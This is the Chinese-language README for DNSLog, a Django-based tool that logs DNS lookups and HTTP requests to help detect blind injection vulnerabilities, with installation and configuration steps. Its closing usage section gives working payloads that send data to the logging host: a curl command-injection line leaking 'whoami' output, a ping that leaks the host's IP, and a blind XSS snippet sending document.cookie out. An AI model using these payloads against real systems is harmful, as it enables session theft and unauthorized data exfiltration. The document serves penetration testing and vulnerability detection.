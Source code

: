 ```
 ____  _   _ ____  _
|  _ \| \ | / ___|| |    ___   __ _
| | | |  \| \___ \| |   / _ \ / _` |
| |_| | |\  |___) | |__| (_) | (_| |
|____/|_| \_|____/|_____\___/ \__, |
                              |___/
```
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)   [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/BugScanTeam/dnslog/master/GPL-2.0) 

简介
---

DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。

DNSLog 基于 Django 框架编写，将 DNSServer 集成进 DNSLog 中，使用者可轻松搭建使用环境。

你可以点击这里访问： [演示站点](http://admin.dnslog.link)

修改记录
---
增加对 referer 的记录

安装
---

1. 获取源代码

 你可以通过用 Git 来克隆代码仓库中的最新源代码

 ```
 $ git clone git@github.com:BugScanTeam/DNSLog.git
 ```

 或者你可以点击 [这里](https://github.com/BugScanTeam/DNSLog/archive/master.zip) 下载最新的源代码 zip 包,并解压

 ```
 $ wget https://github.com/BugScanTeam/DNSLog/archive/master.zip
 $ unzip master.zip
 ```

2. 安装依赖环境

 DNSLog 使用前需要安装 Django 1.8 与 dnslib ，如果已经安装可跳过此步

 ```
 $ cd dnslog
 $ pip install -r requirements.pip
 $ python manage.py migrate
 ```
3. 域名与公网 IP 准备
	
	搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
	
	**注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。**
	
	1. 在 a.com 中设置两条 A 记录：

		```
		ns1.a.com  A 记录指向  1.1.1.1		
		ns2.a.com  A 记录指向  1.1.1.1
		```
	2. 修改 b.com 的 NS 记录为 1 中设定的两个域名

		> 本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
	
	**注意: NS 记录修改之后部分地区需要 24-48 小时会生效**

4. 修改配置文件
	
 修改 `dnslog/dnslog/settings.py` 文件中相关配置：
 
 > 配置文件中的域名对应关系与步骤 3 相同
 
 ```
	# 做 dns 记录的域名
	DNS_DOMAIN = 'b.com'
	
	# 记录管理的域名, 这里前缀根据个人喜好来定
	ADMIN_DOMAIN = 'admin.b.com'
	
	# NS域名
	NS1_DOMAIN = 'ns1.a.com'
	NS2_DOMAIN = 'ns2.a.com'
	
	# 服务器外网地址
	SERVER_IP = '1.1.1.1'
 ```

5. 启动服务

 ```
 $ cd dnslog/
 $ sudo python manage.py runserver 0.0.0.0:80
 ```
 
 **Django web 默认启动端口为 8000，若要启动在 80 端口则需要 root 权限**
 
 > 如果不想启动在 80 端口，但又想在使用 HTTP 的时候不加端口号，可以自己安装 Nginx，对 b.com 做反向代理
 
 Nginx 反向代理参考脚本：
 
 ```
	server {
	    server_name *.b.com;
	    server_name b.com;
	    location / {
	        proxy_pass http://127.0.0.1:8000/;
	                proxy_set_header Host $host;
	                proxy_set_header X-Real-IP $remote_addr;
	                proxy_set_header X-Forwarded-For $remote_addr;
	                proxy_set_header X-Forwarded-Proto https;
	    }
	}
 ```


使用
---

### 站点管理

 启动服务成功后，访问 `http://b.com/admin/` 进入后台
 
 创建一个管理员用户

 ```
 python manage.py createsuperuser
 ```
 
 如果忘记管理员密码，可进入 dnslog 目录下，执行如下命令重设管理员密码
 
 ```
 python manage.py changepassword admin 
 ```

### 普通用户

 
 访问 `http://admin.b.com` (ADMIN_DOMAIN 指定的域名)，输入用户名密码登录。
 
 访问后会在下方看到自己的二级域名，例如 test.b.com，当请求 test.b.com 这个二级域名下的任意子域时，都会被记录，例如: demo.test.b.com。

使用技巧
---

### 命令盲注利用

对于一些命令盲注类的漏洞，可以通过 DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

**在 Web 控制台下看到结果：**

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| testhash.test.dnslog.link/?root |	xxx.xxx.xxx.xxx |	curl/7.43.0	| 2016-05-10 07:36:47


### DNS记录中获取源IP地址

详见 [issue#3](https://github.com/BugScanTeam/DNSLog/issues/3)

```
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
```

效果如下：

```
➜  ~ ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
PING 192.168.10.167.test.dnslog.link (106.186.118.146): 56 data bytes
64 bytes from 106.186.118.146: icmp_seq=0 ttl=52 time=259.491 ms
64 bytes from 106.186.118.146: icmp_seq=1 ttl=52 time=307.566 ms
64 bytes from 106.186.118.146: icmp_seq=2 ttl=52 time=352.757 ms

--- 192.168.10.167.test.dnslog.link ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 259.491/306.605/352.757/38.082 ms
```

### XSS 盲打

在有 XSS 漏洞的页面加入类似如下代码：

```
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

以 `httpbin.org` 为例，一旦触发，在 WebLog 中可以看到：

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| xss.test.dnslog.link/?url=http://httpbin.org/&cookie=_ga=GA1.2.17.142 |	xxx.xxx.xxx.xxx |	Mozilla/5.0 xxx	| 2016-06-18


相关链接
---

* [版权声明](./GPL-2.0)
* [BugScan 社区官网](http://www.bugscan.net)
* [DNSLog 示例站点](http://admin.dnslog.link/)
